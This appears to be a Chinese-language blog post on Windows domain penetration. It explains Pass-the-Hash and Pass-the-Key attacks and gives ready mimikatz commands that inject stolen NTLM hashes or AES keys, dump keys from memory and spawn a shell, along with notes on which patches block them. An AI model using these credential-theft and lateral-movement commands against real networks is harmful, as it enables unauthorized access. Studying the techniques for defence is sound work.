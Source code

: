 ```yaml
---
layout:     post
title:      域渗透之票据
date:       2018-12-25
author:     Wh0ale
header-img: img/36s_by_wlop-dcab1m2.jpg
catalog: true
tags:
    - 域渗透
---
```


![](https://ws1.sinaimg.cn/large/b6de3d7dgy1fz74hk4llxj21940w6gpa.jpg)

## Pass the Hash (PTH hash传递攻击, 即 Mimikatz hash注入 )

在windows系统中,系统通常不会存储用户登录密码,而是**存储密码的哈希值.**

在我们远程登录系统的时候,实际上向远程传递的就是密码的hash值。

当攻击者获取了存储在计算机上的用户名和密码的hash值的时候(PWDUMP7等)

他虽然不知道密码值,但是仍然可以通过直接连接远程主机,通过传送密码的hash值来达到登录的目的。

工具:

```bash
a. Metasploit - exploit/windows/smb/psexec (XP,2003)
b. xfreerdp (2012r2 http://www.freebuf.com/articles/system/15757.html Hash传递攻击登陆Windows2012远程桌面)
    微软在2014年发布了KB2871997和KB2928120两个补丁,用来阻止域内主机本地用户的网络登录,本地用户的PTH方式已经死掉
然而 , mimikatz实现了在禁用NTLM的环境下仍然可以远程连接。
c.hash injection 
    mimikatz # privilege::debug
    mimikatz # sekurlsa::pth /user:administrator /domain:workgroup /ntlm:d6e1371929886ec1be0b0cf4b101f289 /run:c:\windows\system32\cmd.exe
(sekurlsa::pth 中的pth 即Pass the Hash)
```

## Pass The Key (OverPass-the-Hash)

**当系统安装了KB2871997补丁且禁用了NTLM的时候，那我们抓取到的ntlm hash**

也就失去了作用，但是可以通过pass the key的攻击方式获得权限

```bash
mimikatz "privilege::debug" "sekurlsa::ekeys" 获取用户的aes key
mimikatz "privilege::debug" "sekurlsa::pth /user:用戶a /domain:test.local /aes256:f74b379b5b422819db694aaf78f49177ed21c98ddad6b0e246a7e17df6d19d5c" 注入aes key
```

若dir 查看不了服务器 (测试2008r2域服务器)

查看mimikatz的相关资料发现如下信息:

```bash
ntlm hash is mandatory on XP/2003/Vista/2008 and before 7/2008r2/8/2012 kb2871997 (AES not available or replaceable) ; AES keys can be replaced only on 8.1/2012r2 or 7/2008r2/8/2012 with kb2871997, in this case you can avoid ntlm hash.
```
